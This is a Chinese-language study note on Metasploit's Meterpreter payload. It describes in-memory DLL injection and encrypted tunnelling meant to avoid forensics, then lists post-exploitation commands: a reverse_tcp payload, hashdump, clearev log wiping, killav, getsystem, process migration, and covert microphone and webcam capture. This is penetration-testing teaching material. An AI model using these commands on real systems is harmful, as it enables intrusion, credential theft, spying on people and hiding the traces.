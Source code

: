 ### Meterpreter
#### 简介
- 高级、动态、可扩展的Payload
> 1. 基于meterpreter上下文利用更多漏洞发起攻击
> 2. 后渗透测试阶段一站式操作界面
- 完全基于内存的DLL注入式payload（不写硬盘）
> 1. 注入合法系统进程并建立stager
> 2. 基于Stager上传和预加载DLL进行扩展模块的注入（客户端API）
> 3. 基于Stager建立的socket连接建立加密的TLS/1.0通信隧道
> 4. 利用TLS隧道进一步加载后续扩展模块（避免网络取证）
- 服务端用C语言编写
- 客户端提供基于ruby的全特性API（支持任何语言）

#### 常用命令
- set payload windows/metepreter/reverse_tcp  —— 配置payload的时候配置shell为meterpreter
- windows和linux命令大部否都支持（ls,dir,cd,cat,mkdir,rmdir.mv,rm,edit(编辑类似vi)）
- help  —— 帮助
- pwd —— 查看当前空座目录
- lpwd —— kali上当前工作目录
- lcd —— 在kali上切换目录
- run —— 运行脚本
- bgrun —— 后台运行脚本 —— bgrun vnc(打开桌面监控)/sound_recorder(打开麦克风)/webcam(打开摄像头)/killav(杀死杀毒软件)/winbf(用肉机暴力破解)/
- clearev —— 清除日志
- download —— 下载目标系统上的文件
- upload —— 上传文件
- execute —— 执行文件 —— execute -f cmd.exe -i -H （-f 执行什么程序，-i 交互，-H 隐藏）
- gituid —— 查看当前账户
- getsystem —— 提权到system
- getprivs —— 查看当前权限
- getproxy —— 获取代理
- ps —— 查看当前工作着的进程
- getpid —— 查看自己注入的进程pid
- migrate —— 迁移注入的进程 —— migrate 652
- hashdump —— 获取系统账号密码hash值
- sysinfo —— 查看系统信息
- kill —— 杀死进程 —— kill 1052
- reboot —— 重启
- shutdown —— 关机
- shell —— 获取操作系统shell
- show_mount —— 查看硬盘使用情况
- search —— 搜索文件 —— search -f data.ini
- arp —— 查看arp缓存
- netstat —— 查看端口开放情况
- ipconfig/ifconfig —— 查看ip地址
- idletime —— 查看操作系统空闲时间
- resource —— 调度外部资源文件（类似msf的resource）
- record_mic —— 记录麦克风出现的声音
- webcam_list —— 列出靶机上连接的所有摄像头
- webcam_snap -i -v false —— 每隔1秒拍个照
